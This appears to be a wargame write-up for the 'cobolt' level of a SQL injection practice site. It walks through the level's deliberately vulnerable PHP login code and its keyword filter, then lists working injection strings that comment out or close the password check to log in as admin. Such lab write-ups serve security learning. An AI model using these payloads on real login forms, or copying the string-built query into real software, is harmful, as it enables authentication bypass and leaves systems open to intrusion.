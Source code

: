 # **Cobolt**
## 1. What will we learn from this problem?
This problem wants to make sure you know basic **SQL injection**      

## 2. Analize codes  
    <?php
      include "./config.php"; 
      login_chk();
      dbconnect();
      
      if(preg_match('/prob|_|\.|\(\)/i', $_GET[id]))  
        exit("No Hack ~_~");  

      if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw]))
        exit("No Hack ~_~");   

      $query = "select id from prob_cobolt where id='{$_GET[id]}' and pw=md5('{$_GET[pw]}')"; 
      
      echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
      $result = @mysql_fetch_array(mysql_query($query)); 
      if($result['id'] == 'admin')  
        solve("cobolt");
      
      elseif($result['id'])  
        echo "<h2>Hello {$result['id']}<br>You are not admin :(</h2>"; 
      
      highlight_file(__FILE__); 
    ?>

### 1. preg_match()
We can't use string like these.(scope : id, pw)  

    prob | _ | . | ()

If we use one of these, we will see 'No Hack ~_~'

### 2. query
Query is this.

    select id from prob_cobolt where id='{$_GET[id]}' and pw=md5('{$_GET[pw]}')

Let's think how to modulate that.

### 3. if($result['id'] == 'admin')
If data which we got from database using query has 'id' field and the value of the field is same with 'admin',
then we can solve this problem.  

But there is no need to know the password  

Then How can we do that?

## 3. Solution  
This is quite simple problem. There are two ways to modulate this query.  
These are id and pw.  

If we use id parameter, we use annotation keyword.  
And if we use pw parameter, we have to use ) char to escape md5() function.  
  
### Using Keyword  

    or | ' | ) | --

### These are my answers.
    
    ?id=admin'%20--%20  
      
    ?pw=')or id=('admin

    ?pw=')||id='admin'%20--%20

**Lastly, There can be many answers**

**[Go to see other solutions](https://github.com/moreal/TIL-Security/blob/master/WarGame/WriteUp/los.eagle-jump.org/00.%20ReadMe.md)**